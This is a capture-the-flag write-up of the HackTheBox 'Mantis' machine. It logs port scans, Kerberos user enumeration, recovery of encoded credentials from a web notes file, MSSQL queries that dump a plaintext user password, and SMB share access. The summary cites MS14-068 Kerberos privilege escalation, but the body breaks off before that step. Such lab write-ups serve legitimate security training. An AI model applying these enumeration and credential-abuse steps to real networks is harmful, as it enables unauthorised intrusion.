

---
tags:
  - mssql
  - ad_goldenpac
  - ms14-068
group: ActiveDirectory
---


- Machine : https://app.hackthebox.com/machines/Mantis
- Reference : https://0xdf.gitlab.io/2020/09/03/htb-mantis.html
- Solved : 2024.12.31. (Tue) (Takes 2days)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: Found critical services such as DNS (53), HTTP (1337, 8080), Kerberos (88), LDAP (389, 3268), SMB (139, 445), and MSSQL (1433, 50255).
    - **Domain Information**:
        - Discovered the domain `htb.local` and the FQDN `mantis.htb.local`.
    - **Discover AD Users**:
        - Enumerated AD users using `kerbrute`, identifying `james`, `mantis`, and `administrator`.
        
2. **Web Exploitation**
    - Explored the HTTP service on port 8080, finding OrchardCMS and `/secure_notes`.
    - Extracted credentials from files:
        - MSSQL: `admin:m$$ql_S@_P@ssW0rd!`
        - OrchardCMS Admin: `admin:@dm!n_P@ssW0rd!`
        
3. **Service Access**
    - **SMB**:
        - Validated `james`' credentials (`J@m3s_P@ssW0rd!`) and accessed the `SYSVOL` share but found no useful data.
    - **MSSQL**:
        - Logged in using the credentials and queried the `orcharddb`, retrieving `james`' password: `J@m3s_P@ssW0rd!`.
        
4. **Privilege Escalation**
    - **MS14-068 Exploitation**:
        - Identified `mantis.htb.local` as vulnerable to MS14-068.
        - Used `impacket-goldenPac` with `james`' credentials to exploit Kerberos PAC, gaining a `SYSTEM` shell.

---

### Key Techniques:

- **Enumeration**: Explored open ports, AD users, and web services.
- **Credential Abuse**: Reused credentials across multiple services.
- **Kerberos Exploitation**: Leveraged MS14-068 for privilege escalation.

---

# Reconnaissance

### Port Scanning

```yaml
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.10.52
Performing quick port scan on 10.10.10.52...
Found open ports: 53,88,135,139,389,445,464,593,636,1337,1433,3268,3269,5722,8080,9389,47001,49152,49153,49154,49155,49157,49158,49161,49165,49168,50255
Performing detailed scan on 10.10.10.52...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-29 04:54 EST
Nmap scan report for 10.10.10.52
Host is up (0.13s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Microsoft DNS 6.1.7601 (1DB15CD4) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-12-29 09:54:33Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
464/tcp   open  tcpwrapped
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
1337/tcp  open  http         Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.10.52:1433: 
|     Target_Name: HTB
|     NetBIOS_Domain_Name: HTB
|     NetBIOS_Computer_Name: MANTIS
|     DNS_Domain_Name: htb.local
|     DNS_Computer_Name: mantis.htb.local
|     DNS_Tree_Name: htb.local
|_    Product_Version: 6.1.7601
| ms-sql-info: 
|   10.10.10.52:1433: 
|     Version: 
|       name: Microsoft SQL Server 2014 RTM
|       number: 12.00.2000.00
|       Product: Microsoft SQL Server 2014
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-12-29T09:45:20
|_Not valid after:  2054-12-29T09:45:20
|_ssl-date: 2024-12-29T09:55:42+00:00; 0s from scanner time.
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc        Microsoft Windows RPC
8080/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Tossed Salad - Blog
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc        Microsoft Windows RPC
49161/tcp open  msrpc        Microsoft Windows RPC
49165/tcp open  msrpc        Microsoft Windows RPC
49168/tcp open  msrpc        Microsoft Windows RPC
50255/tcp open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
| ms-sql-info: 
|   10.10.10.52:50255: 
|     Version: 
|       name: Microsoft SQL Server 2014 RTM
|       number: 12.00.2000.00
|       Product: Microsoft SQL Server 2014
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 50255
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-12-29T09:45:20
|_Not valid after:  2054-12-29T09:45:20
| ms-sql-ntlm-info: 
|   10.10.10.52:50255: 
|     Target_Name: HTB
|     NetBIOS_Domain_Name: HTB
|     NetBIOS_Computer_Name: MANTIS
|     DNS_Domain_Name: htb.local
|     DNS_Computer_Name: mantis.htb.local
|     DNS_Tree_Name: htb.local
|_    Product_Version: 6.1.7601
|_ssl-date: 2024-12-29T09:55:42+00:00; 0s from scanner time.
Service Info: Host: MANTIS; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 42m51s, deviation: 1h53m24s, median: 0s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
| smb-os-discovery: 
|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: mantis
|   NetBIOS computer name: MANTIS\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: mantis.htb.local
|_  System time: 2024-12-29T04:55:33-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2024-12-29T09:55:34
|_  start_date: 2024-12-29T09:45:11

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.21 seconds
```

- Windows Server 2008 is running.
- Domain name is `htb.local` while FQDN is `mantis.htb.local`.

### dns(53)

```yaml
┌──(kali㉿kali)-[~/htb]
└─$ dig any htb.local @10.10.10.52

; <<>> DiG 9.20.0-Debian <<>> any htb.local @10.10.10.52
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: FORMERR, id: 5704
;; flags: qr rd; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 1232
; COOKIE: 95f284f21829186c (echoed)
;; QUESTION SECTION:
;htb.local.                     IN      ANY

;; Query time: 123 msec
;; SERVER: 10.10.10.52#53(10.10.10.52) (TCP)
;; WHEN: Sun Dec 29 05:00:44 EST 2024
;; MSG SIZE  rcvd: 50


┌──(kali㉿kali)-[~/htb]
└─$ dig axfr htb.local @10.10.10.52

; <<>> DiG 9.20.0-Debian <<>> axfr htb.local @10.10.10.52
;; global options: +cmd
; Transfer failed.
```

### ldap(389)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ldapsearch -H ldap://10.10.10.52 -x -b "DC=HTB,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength


┌──(kali㉿kali)-[~/htb]
└─$ ldapsearch -H ldap://10.10.10.52 -x -b "DC=HTB,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

### Kerberos(88)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ kerbrute_linux_arm64 userenum --domain htb.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.52

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 12/29/24 - Ronnie Flathers @ropnop

2024/12/29 05:05:44 >  Using KDC(s):
2024/12/29 05:05:44 >   10.10.10.52:88

2024/12/29 05:05:45 >  [+] VALID USERNAME:       james@htb.local
2024/12/29 05:05:51 >  [+] VALID USERNAME:       James@htb.local
2024/12/29 05:06:24 >  [+] VALID USERNAME:       administrator@htb.local
2024/12/29 05:06:45 >  [+] VALID USERNAME:       mantis@htb.local
2024/12/29 05:07:55 >  [+] VALID USERNAME:       JAMES@htb.local
2024/12/29 05:12:43 >  [+] VALID USERNAME:       Administrator@htb.local
2024/12/29 05:15:31 >  [!] bdiddy@htb.local - failed to communicate with KDC. Attempts made with UDP (error sending to a KDC: error sneding to 10.10.10.52:88: sending over UDP failed to 10.10.10.52:88: read udp 10.10.14.4:34544->10.10.10.52:88: i/o timeout) and then TCP (error in getting a TCP connection to any of the KDCs)                                                            
2024/12/29 05:15:36 >  Done! Tested 18134 usernames (6 valid) in 591.966 seconds
```

Find several valid AD users: `james`, `administrator`, `mantis`
Let's check if any of them has `pre-auth` unset.
This will be useful for `AS-REPRoasting`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ impacket-GetNPUsers -dc-ip 10.10.10.52 -usersfile ad_users.txt htb.local/ 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mantis doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```

None of them are useful.

### smb(139,445)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ smbclient -L 10.10.10.52
Password for [WORKGROUP\kali]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.52 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Anonymous login to list shares is not working...

### rpc(135)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ rpcclient -U '' -N 10.10.10.52
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> queryuser james
result was NT_STATUS_ACCESS_DENIED
rpcclient $> queryuser mantis
result was NT_STATUS_ACCESS_DENIED
```

### mssql(1433)

```python
┌──(kali㉿kali)-[~/htb]
└─$ sqsh -S 10.10.10.52 -U sa -P ''
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
Login failed for user 'sa'.

```

Ms SQL doesn't allow login without password. Maybe we have to visit it later.

### http(8080)


Looks like a normal blog site which has sign-in.


But can't do anything for now except easy credentials.
Of course I tried it, but it was not successful.


The error output doesn't give any hint.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://10.10.10.52:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.52:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/archive              (Status: 200) [Size: 2866]
/blogs                (Status: 200) [Size: 2913]
/admin                (Status: 302) [Size: 163] [--> /Users/Account/AccessDenied?ReturnUrl=%2Fadmin]                                                      
/tags                 (Status: 200) [Size: 2453]
/Archive              (Status: 200) [Size: 2866]
/pollArchive          (Status: 200) [Size: 2870]
```

```markdown
┌──(kali㉿kali)-[~/htb]
└─$ nikto -h http://10.10.10.52:8080         
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.10.52
+ Target Hostname:    10.10.10.52
+ Target Port:        8080
+ Start Time:         2024-12-29 06:16:46 (GMT-5)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/7.5
+ /: Retrieved x-aspnet-version header: 4.0.30319.
+ /: Retrieved x-powered-by header: ASP.NET.
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: Orchard was identified via the x-generator header. See: https://www.drupal.org/project/remove_http_headers
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
```

Nikto scan couldn't find anything useful..

### http(1337)


Looks like a default web page. 

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://10.10.10.52:1337 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.52:1337
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/orchard              (Status: 500) [Size: 3026]
/secure_notes         (Status: 301) [Size: 160] [--> http://10.10.10.52:1337/secure_notes/]                                                               
```

`/secure_notes` page is found here!



There are two files in the found page.
Let's download them all.
`web.config` file doesn't exist, and only the text file is downloaded.

dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt:
```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt 
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.

<SNIP>


Credentials stored in secure format
OrchardCMS admin creadentials 
010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001
SQL Server sa credentials file namez    
```

Its initial part is an explanation of OrchardCMS installation.
However, it has a lot of empty spaces, and at the end it has `admin`'s credential.
Since the file name looks suspcious, let's investigate this as well.

The filename is a combination of base64 and hex. I can decrypt it with cyberchef.


It looks like I've obtained MsSQL service's password : `m$$ql_S@_P@ssW0rd!`

For the OrchardCMS `admin`'s password, I applied "From Binary" since the format looks like binary.


The cracked password is `@dm!n_P@ssW0rd!`.

From the single note, I've obtained two credentials!
Let me go back to OrchardCMS on port 8080 again.

### http(8080)

With the found credential (`admin`: `@dm!n_P@ssW0rd!`), I was able to login.
Then, I opened dashboard panel.


It looks similar with Wordpress admin panel, but have no same vulnerability..
There's no existing RCE vulnerability as well.
Let's visit it later.

### mssql(1433)

I tried the found mssql credential(`m$$ql_S@_P@ssW0rd!`) this time.

```sql
┌──(kali㉿kali)-[~/htb]
└─$ impacket-mssqlclient 'admin:m$$ql_S@_P@ssW0rd!@10.10.10.52'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (120 7208) 
[!] Press help for extra shell commands
SQL (admin  admin@master)> 
```

The credential worked.

```sql

SQL (admin  admin@master)> SELECT @@version;
                                                                                                                                                                                                          
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   
Microsoft SQL Server 2014 - 12.0.2000.8 (X64) 
        Feb 20 2014 20:04:26 
        Copyright (c) Microsoft Corporation
        Express Edition (64-bit) on Windows NT 6.1 <X64> (Build 7601: Service Pack 1) (Hypervisor)
   

SQL (admin  admin@master)> SELECT USER_NAME();
        
-----   
admin   

SQL (admin  admin@master)> SELECT SYSTEM_USER;
        
-----   
admin   
```

Let's dive deep into the database;

```sql
SQL (admin  admin@master)> SELECT name FROM master.dbo.sysdatabases;
name        
---------   
master      
tempdb      
model       
msdb        
orcharddb 


SQL (admin  admin@master)> USE orcharddb
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: orcharddb
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'orcharddb'.


SQL (admin  admin@orcharddb)> SELECT * FROM orcharddb.INFORMATION_SCHEMA.TABLES;
TABLE_CATALOG   TABLE_SCHEMA   TABLE_NAME                                             TABLE_TYPE   
-------------   ------------   ----------------------------------------------------   ----------   
orcharddb       dbo            blog_Orchard_Blogs_RecentBlogPostsPartRecord           b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Blogs_BlogArchivesPartRecord              b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Workflows_TransitionRecord                b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Workflows_WorkflowRecord                  b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Workflows_WorkflowDefinitionRecord        b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Workflows_AwaitingActivityRecord          b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Workflows_ActivityRecord                  b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Tags_TagsPartRecord                       b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Framework_DataMigrationRecord             b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Tags_TagRecord                            b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Tags_ContentTagRecord                     b'BASE TABLE'   

orcharddb       dbo            blog_Settings_ContentFieldDefinitionRecord             b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Framework_DistributedLockRecord           b'BASE TABLE'   

orcharddb       dbo            blog_Settings_ContentPartDefinitionRecord              b'BASE TABLE'   

orcharddb       dbo            blog_Settings_ContentPartFieldDefinitionRecord         b'BASE TABLE'   

orcharddb       dbo            blog_Settings_ContentTypeDefinitionRecord              b'BASE TABLE'   

orcharddb       dbo            blog_Settings_ContentTypePartDefinitionRecord          b'BASE TABLE'   

orcharddb       dbo            blog_Settings_ShellDescriptorRecord                    b'BASE TABLE'   

orcharddb       dbo            blog_Settings_ShellFeatureRecord                       b'BASE TABLE'   

orcharddb       dbo            blog_Settings_ShellFeatureStateRecord                  b'BASE TABLE'   

orcharddb       dbo            blog_Settings_ShellParameterRecord                     b'BASE TABLE'   

orcharddb       dbo            blog_Settings_ShellStateRecord                         b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Framework_ContentItemRecord               b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Framework_ContentItemVersionRecord        b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Framework_ContentTypeRecord               b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Framework_CultureRecord                   b'BASE TABLE'   

orcharddb       dbo            blog_Common_BodyPartRecord                             b'BASE TABLE'   

orcharddb       dbo            blog_Common_CommonPartRecord                           b'BASE TABLE'   

orcharddb       dbo            blog_Common_CommonPartVersionRecord                    b'BASE TABLE'   

orcharddb       dbo            blog_Common_IdentityPartRecord                         b'BASE TABLE'   

orcharddb       dbo            blog_Containers_ContainerPartRecord                    b'BASE TABLE'   

orcharddb       dbo            blog_Containers_ContainerWidgetPartRecord              b'BASE TABLE'   

orcharddb       dbo            blog_Containers_ContainablePartRecord                  b'BASE TABLE'   

orcharddb       dbo            blog_Title_TitlePartRecord                             b'BASE TABLE'   

orcharddb       dbo            blog_Navigation_MenuPartRecord                         b'BASE TABLE'   

orcharddb       dbo            blog_Navigation_AdminMenuPartRecord                    b'BASE TABLE'   

orcharddb       dbo            blog_Scheduling_ScheduledTaskRecord                    b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_ContentPicker_ContentMenuItemPartRecord   b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Alias_AliasRecord                         b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Alias_ActionRecord                        b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Autoroute_AutoroutePartRecord             b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Users_UserPartRecord                      b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Roles_PermissionRecord                    b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Roles_RoleRecord                          b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Roles_RolesPermissionsRecord              b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Roles_UserRolesPartRecord                 b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Packaging_PackagingSource                 b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Recipes_RecipeStepResultRecord            b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_OutputCache_CacheParameterRecord          b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_MediaProcessing_ImageProfilePartRecord    b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_MediaProcessing_FilterRecord              b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_MediaProcessing_FileNameRecord            b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Widgets_LayerPartRecord                   b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Widgets_WidgetPartRecord                  b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Comments_CommentPartRecord                b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Comments_CommentsPartRecord               b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Taxonomies_TaxonomyPartRecord             b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Taxonomies_TermPartRecord                 b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Taxonomies_TermContentItem                b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Taxonomies_TermsPartRecord                b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_MediaLibrary_MediaPartRecord              b'BASE TABLE'   

orcharddb       dbo            blog_Orchard_Blogs_BlogPartArchiveRecord               b'BASE TABLE' 
```

I investigate `orcharddb` and `blog_Orchard_Users_UserPartRecord` looks valuable.

```sql
SQL (admin  admin@orcharddb)> SELECT * FROM blog_Orchard_Users_UserPartRecord;
Id   UserName   Email             NormalizedUserName   Password                                                               PasswordFormat   HashAlgorithm   PasswordSalt               RegistrationStatus   EmailStatus   EmailChallengeToken   CreatedUtc            LastLoginUtc          LastLogoutUtc         
--   --------   ---------------   ------------------   --------------------------------------------------------------------   --------------   -------------   ------------------------   ------------------   -----------   -------------------   -------------------   -------------------   -------------------   
 2   admin                        admin                AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==   Hashed           PBKDF2          UBwWF1CQCsaGc/P7jIR/kg==   Approved             Approved      NULL                  2017-09-01 13:44:01   2017-09-01 14:03:50   2017-09-01 14:06:31   

15   James      james@htb.local   james                J@m3s_P@ssW0rd!                                                        Plaintext        Plaintext       NA                         Approved             Approved      NULL                  2017-09-01 13:45:44   NULL                  NULL      
```

It shows `james`'s password : `J@m3s_P@ssW0rd!`

### smb(139,445)

Given the found credential, let's test if there's any credential is working on SMB.
If the user `james` exists, it's more likely to use the same credential.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.10.52 -u james -p 'J@m3s_P@ssW0rd!'
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james:J@m3s_P@ssW0rd! 
```

It worked! Let's list the shares.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.10.52 -u james -p 'J@m3s_P@ssW0rd!' --shares
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james:J@m3s_P@ssW0rd! 
SMB         10.10.10.52     445    MANTIS           [+] Enumerated shares
SMB         10.10.10.52     445    MANTIS           Share           Permissions     Remark                                                                
SMB         10.10.10.52     445    MANTIS           -----           -----------     ------                                                                
SMB         10.10.10.52     445    MANTIS           ADMIN$                          Remote Admin                                                          
SMB         10.10.10.52     445    MANTIS           C$                              Default share                                                         
SMB         10.10.10.52     445    MANTIS           IPC$                            Remote IPC                                                            
SMB         10.10.10.52     445    MANTIS           NETLOGON        READ            Logon server share                                                    
SMB         10.10.10.52     445    MANTIS           SYSVOL          READ            Logon server share 
```

2 shares(`NETLOGON`, `SYSVOL`) are readable.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ smbclient \\\\10.10.10.52\\NETLOGON -U james
Password for [WORKGROUP\james]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Aug 31 20:05:10 2017
  ..                                  D        0  Thu Aug 31 20:05:10 2017

                5217023 blocks of size 4096. 937853 blocks available
smb: \> exit
```

Nothing in `NETLOGON`.

```bash
┌──(kali㉿kali)-[~/htb/smb_sysvol]
└─$ smbclient \\\\10.10.10.52\\SYSVOL -U james
Password for [WORKGROUP\james]:
Try "help" to get a list of possible commands.
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
NT_STATUS_ACCESS_DENIED listing \htb.local\DfsrPrivate\*
getting file \htb.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI of size 22 as htb.local/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
getting file \htb.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI of size 22 as htb.local/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
getting file \htb.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol of size 2782 as htb.local/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol (4.6 KiloBytes/sec) (average 1.4 KiloBytes/sec)
getting file \htb.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 1098 as htb.local/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (1.6 KiloBytes/sec) (average 1.5 KiloBytes/sec)
getting file \htb.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 5652 as htb.local/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (8.5 KiloBytes/sec) (average 2.9 KiloBytes/sec)


┌──(kali㉿kali)-[~/htb/smb_sysvol]
└─$ tree                                                      
.
└── htb.local
    ├── DfsrPrivate
    ├── Policies
    │   ├── {31B2F340-016D-11D2-945F-00C04FB984F9}
    │   │   ├── GPT.INI
    │   │   ├── MACHINE
    │   │   │   ├── Microsoft
    │   │   │   │   └── Windows NT
    │   │   │   │       └── SecEdit
    │   │   │   │           └── GptTmpl.inf
    │   │   │   └── Registry.pol
    │   │   └── USER
    │   └── {6AC1786C-016F-11D2-945F-00C04fB984F9}
    │       ├── GPT.INI
    │       ├── MACHINE
    │       │   └── Microsoft
    │       │       └── Windows NT
    │       │           └── SecEdit
    │       │               └── GptTmpl.inf
    │       └── USER
    └── scripts

17 directories, 5 files
```

I dumped contents from `SYSVOL` share.
I read all existing files, but none of them were useful..

### rpc(135)

Used the same credential again.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ rpcclient -U 'james' 10.10.10.52
Password for [WORKGROUP\james]:
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
